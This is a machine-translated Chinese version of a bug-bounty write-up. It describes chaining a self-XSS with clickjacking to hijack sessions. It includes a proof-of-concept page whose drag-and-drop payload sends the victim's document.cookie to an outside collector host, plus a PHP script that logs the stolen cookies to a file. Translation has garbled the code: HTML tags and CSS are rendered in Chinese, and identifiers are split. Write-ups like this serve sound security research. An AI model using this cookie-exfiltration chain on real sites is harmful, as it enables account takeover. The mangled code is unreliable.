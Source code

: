 # 将自己的 XSS 与 UI 调整链接在一起会导致会话劫持(PWN 用户就像老板一样)

> 原文：<https://infosecwriteups.com/chaining-self-xss-with-ui-redressing-is-leading-to-session-hijacking-pwn-users-like-a-boss-efb46249cd14?source=collection_archive---------2----------------------->

当我测试 web 应用程序时，我发现了自己的 xss。这没有任何影响。但我想利用这个漏洞，所以我开始思考如何利用这个自我 xss，然后我决定将这个自我 xss 与其他一些漏洞联系起来。

于是又一次盯着找 CSRF 进攻，而我却一力把 CSRF 弄到了脆弱的一页。

但是我注意到应用程序没有使用 x 帧头。所以想让我们检查点击劫持。！
耶！应用程序易受点击劫持的攻击。

所以决定用点击劫持来连锁自己的 xss。

这里是点击劫持，这是与自己的 xss 抓取受害者的饼干连锁。

<头> <名头>Poc</名头>
<身 bgcolor = " gray ">
<h1 align = " center ">拖 N 坠游戏</h1>
<br>br><br>
<img src = "[https://encrypted-tbn0.gstatic.com/images?q = tbn:and 9 gcsi 0 i3 s6j 4 vzohcvzbzuzj-g-y 722 w8 jqyo 4g 1 LC 0 hhm 9 sh 9 wn 9](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSi0I3s6J4VZohcVZbzUzJ-g-y722W8jqyo4g1lc0HhM9SH9WN9)" draggable = true id = drag ondragstart = " event . data transfer . setdata(' text/plain '，'<script>location = `[http://armaanpathan.pe.hu/cookies.php?cookie = `+btoa(document . cookie)](http://armaanpathan.pe.hu/cookies.php?cookie=`+btoa(document.cookie))</script>')">

<style type = " text/CSS ">
iframe {
width:800 px；
高度:650px
位置:绝对；
top:2；右:10；
滤镜:alpha(不透明度= 50)；
不透明度:0.00；

<style type = " text/CSS ">
H2 {
位置:绝对；
顶:420；右:30；
}
</style>
<iframe src = " www . victim . com "></iframe>
<H2>拖动图片到这里</H2>
</html>

下面是将抓取的 cookies 保存在 txt 文件中的代码

$c=$_GET[‘cookie’];
FILE _ put _ contents(" cookies . txt "，$c . "\n\n "，FILE _ APPEND)；

?>

![](img/4f71a3456a2e56b73874fe5ace9c60b4.png)![](img/e59ad61e36010fb04c7f6201be5ab129.png)

是的，我可以劫持任何用户的会话。

![](img/2c79b1fcc3dd318e2464a8fe15b95df8.png)

这是概念验证视频

空间感谢 [**拉胡尔·麦尼**](https://twitter.com/iamnoooob) **。谢谢你帮助我。:)**

感谢阅读。:)